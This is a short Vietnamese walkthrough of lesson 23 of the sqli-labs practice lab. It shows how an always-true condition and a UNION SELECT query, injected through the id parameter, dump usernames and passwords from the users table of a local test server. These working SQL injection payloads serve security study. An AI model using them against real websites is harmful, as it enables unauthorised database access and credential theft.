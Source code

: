 # Những việc làm được với lesson-23
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-23

![](../images/lesson23/screen_2.png)

Trông có vẻ nó giống bài 1. Ta hãy làm giống như thế nhé. Có vẻ như nó không có tác dụng gì. Dù thử rất nhiều trường hợp của các ký tự comment trong câu truy vấn nhưng nó vẫn không phải cấu trúc như thế này 

![](../images/lesson23/screen.png)

Ta hãy cho nó giá trị luôn đúng. Và ta thấy được ràng có thể sử dụng nó 
```
192.168.80.225/sqli-labs/Less-23/?id=' or '1' = '1
```
![](../images/lesson23/screen_3.png)

```
192.168.80.225/sqli-labs/Less-23/?id=' union select 1,group_concat(username),group_concat(password) from users where 1 or '1' = '1
```

![](../images/lesson23/screen_1.png)

ở đây ta dùng union với điều kiện luôn đúng như vậy ta có thể sử dụng được giống như bài 1 với cấu trúc của bài này rồi nhé 